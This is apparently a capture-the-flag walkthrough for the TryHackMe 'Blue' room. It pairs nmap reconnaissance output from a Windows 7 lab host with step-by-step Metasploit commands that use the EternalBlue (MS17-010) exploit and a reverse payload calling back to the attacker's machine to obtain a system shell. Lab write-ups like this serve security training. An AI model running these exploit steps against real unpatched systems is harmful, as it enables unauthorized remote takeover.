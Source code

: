 ### Recon

Try Hack Me Room title: Blue

Target IP Address: 10.10.201.254

#### nmap -A 10.10.201.254  
_Results_    
nmap -A 10.10.201.254        
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-28 12:17 EDT
Nmap scan report for 10.10.201.254
Host is up (0.099s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2024-03-28T16:19:51+00:00; +37s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: JON-PC
|   NetBIOS_Domain_Name: JON-PC
|   NetBIOS_Computer_Name: JON-PC
|   DNS_Domain_Name: Jon-PC
|   DNS_Computer_Name: Jon-PC
|   Product_Version: 6.1.7601
|_  System_Time: 2024-03-28T16:19:46+00:00
| ssl-cert: Subject: commonName=Jon-PC
| Not valid before: 2024-03-27T16:05:54
|_Not valid after:  2024-09-26T16:05:54
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49160/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-03-28T11:19:45-05:00
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:bb:a9:a5:f4:93 (unknown)
|_clock-skew: mean: 1h00m37s, deviation: 2h14m09s, median: 37s
| smb2-time: 
|   date: 2024-03-28T16:19:46
|_  start_date: 2024-03-28T16:05:53

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.19 seconds..


### Weaponization

``1. msf > use exploit/windows/smb/ms17_010_eternalblue``  
``2. msf exploit(ms17_010_eternalblue) > show targets``  
    __...targets...__  
``3. msf exploit(ms17_010_eternalblue) > set TARGET < target-id >``    
``4. msf exploit(ms17_010_eternalblue) > show options``  
    __...show and set options...__  
``5. msf exploit(ms17_010_eternalblue) > exploit``

### How to setup metaspsploit

* open metasploit `msfconsole`
* `search eternalblue`
    *  use option #0 `use 0`
* `show targets`
* `set target to proper OS in this case windows 7
    * `set TARGET 1`
* `show options`
* Under **_Module options_** Edit "current setting" if none shown for "required" fields that state "yes"
* set RHOSTS to victim IP
    * `set RHOSTS <victim IP>`
* Under **_Payload options_** verify LHOST is set to your machine IP
    * `set LHOST <your machine IP>`
* The exploit and payload are set up now all we have to do is run the exploit by running the `exploit command`
    * `exploit`
* run mutiple times if doesn't succeed first attempt
    * you will see "WIN" if the attempt was successfull
* We not must call the shell from meterpreter by simply running the `shell` command
    * `shell`
* you should now see "C:\Windows\system32>"


